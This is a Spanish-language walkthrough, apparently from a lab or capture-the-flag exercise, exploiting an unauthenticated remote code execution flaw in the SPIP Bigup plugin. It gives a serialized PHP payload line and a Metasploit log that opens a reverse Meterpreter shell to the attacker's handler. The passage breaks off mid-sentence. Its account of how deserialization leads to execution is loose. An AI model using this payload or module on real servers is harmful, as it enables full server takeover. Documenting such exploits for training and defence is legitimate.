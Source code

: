 
### Flujo típico de ataque

1. El atacante hace una petición HTTP al endpoint (por ejemplo `spip.php?page=spip_pass`) que contiene un formulario con campos como `formulaire_action_args` y `oubli`.
2. El formulario incluye un token de anti-CSRF (`formulaire_action_args`) y un campo serializado en `oubli`.
3. No hay validación estricta sobre el contenido serializado: el atacante puede enviar algo como:

```php-template
s:XX:"<?php system('calc'); ?>";
```

- donde `XX` es la longitud ajustada para coincidir con el contenido real.
- Al procesarse el formulario, SPIP **deserializa esa entrada**, interpretando el contenido PHP en memoria y eventualmente ejecutándolo (por ejemplo, al incluirlo en un script o evaluación dinámica). De esta forma, se consigue RCE sin autenticación.

### Impacto real de la vulnerabilidad

Dado que se puede ejecutar código arbitrario desde la interfaz pública, un atacante puede comprometer completamente el servidor, escribir ficheros, obtener credenciales, desplegar puertas traseras o incluso pivotar a otros sistemas internos. El impacto es crítico, y por eso fue urgente la liberación de parches en múltiples ramas y la generación de alertas en Debian/Ubuntu.

#### Explotacion

```bash
msf6 exploit(multi/http/spip_bigup_unauth_rce) > exploit
[*] Started reverse TCP handler on 10.23.120.245:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.0
[+] SPIP version 4.2.0 is vulnerable.
[*] Bigup plugin version detected: 3.2.1
[+] The target appears to be vulnerable. Both the detected SPIP version (4.2.0) and bigup version (3.2.1) are vulnerable.
[*] Found formulaire_action: login
[*] Found formulaire_action_args: CK5OtIY6q/6ugXZnjymFQ...
[*] Preparing to send exploit payload to the target...
[*] Sending stage (40004 bytes) to 10.201.21.82
[*] Meterpreter session 1 opened (10.23.120.245:4444 -> 10.201.21.82:37326) at 2025-09-03 06:51:34 -0500
```


Tras ejecutar el exploit `spip_bigup_unauth_rce` en Metasploit, el framework nos reporta que el payload fue entregado correctamente y se estableció una **sesión Meterpreter** con la máquina víctima:

```bash
[*] Meterpreter session 1 opened (10.23.120.245:4444 -> 10.201.21.82:37326)
```

## Limitación del Meterpreter

Aunque la sesión es interactiva, el Meterpreter no siempre permite ejecutar todos los comandos del sistema de manera directa (por ejemplo, `id`, `ls`, `cat`). Para solventar esto, lo habitual es invocar una **shell del sistema operativo** desde Meterpreter con:
